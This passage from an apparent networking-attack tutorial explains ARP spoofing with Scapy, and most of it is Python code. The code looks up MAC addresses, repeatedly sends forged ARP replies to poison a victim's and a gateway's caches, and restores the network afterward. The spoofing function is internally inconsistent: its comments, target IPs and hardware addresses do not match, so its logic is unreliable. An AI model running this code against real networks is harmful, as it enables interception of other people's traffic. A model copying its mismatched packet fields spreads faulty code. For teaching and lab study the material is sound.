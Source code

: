 Now we need Alice to send the packets to Mallory instead of her current default gateway.
This can be achieved with ARP spoofing. Conveniently,
Scapy has [a module](https://scapy.readthedocs.io/en/latest/usage.html#arp-cache-poisoning)
to facilitate this.

```python
def ip2mac(ip):
    ans, _ = srp(Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(pdst=ip), timeout=3, verbose=0)
    if ans:
        return ans[0][1].src

def restore(target_ip, host_ip, verbose=True):
    """
    Restores the normal process of a regular network
    This is done by sending the original informations
    (real IP and MAC of `host_ip` ) to `target_ip`
    """
    # get the real MAC address of target
    target_mac = ip2mac(target_ip)
    # get the real MAC address of spoofed (gateway, i.e router)
    host_mac = ip2mac(host_ip)
    # crafting the restoring packet
    arp_response = ARP(pdst=target_ip, hwdst=target_mac, psrc=host_ip, hwsrc=host_mac)
    # sending the restoring packet
    # to restore the network to its normal process
    # we send each reply seven times for a good measure (count=7)
    send(arp_response, verbose=0, count=7)

def arp_spoof():
    '''
    tell Alice we're the host and vice versa to intercept packets
    '''
    # suppose we know the target ips
    alice_ip = "10.0.0.2"
    gate_ip = "10.0.0.1"

    try:
        while (1):
            # tell Alice we're the host
            arp_response = ARP(pdst=gate_ip, hwdst=ip2mac(alice_ip), psrc=alice_ip, op='is-at')
            send(arp_response, verbose=0)

            # tell the host we're Alice
            arp_response = ARP(pdst=alice_ip, hwdst=ip2mac(gate_ip), psrc=gate_ip, op='is-at')
            send(arp_response, verbose=0)

    except KeyboardInterrupt:
        print("[!] Detected CTRL+C ! restoring the network, please wait...")
        restore(alice_ip, gate_ip)
        restore(gate_ip, alice_ip)
```
